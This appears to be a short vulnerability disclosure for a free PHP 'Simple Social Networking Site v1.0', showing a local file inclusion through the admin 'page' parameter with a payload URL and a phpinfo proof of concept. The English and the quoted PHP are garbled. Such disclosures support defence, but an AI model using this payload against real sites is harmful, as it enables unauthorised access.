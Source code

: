 # Simple Social Networking Site v1.0 by oretnom23 has The local file contains

vendor : https://www.sourcecodester.com/php/15311/simple-social-networking-site-instagram-phpoop-free-source-code.html

Vulnerability File: ip/sns/admin/?page=

Vulnerability location: ip/sns/admin/?page=, page

Payload: ip/sns/admin/?page=shell

![image](https://user-images.githubusercontent.com/54017627/166926955-cb2893fe-2282-4e85-897e-76e892d20434.png)

We create a shell.php under the PHP file of the root of the website, which reads "<?" phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/166926826-1c256fc5-9342-4ac3-bbfb-2459f8dc6b73.png)

And visit http://sns/admin/?page=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/166927034-eab4e480-abf4-4881-8038-eb241afa1d97.png)
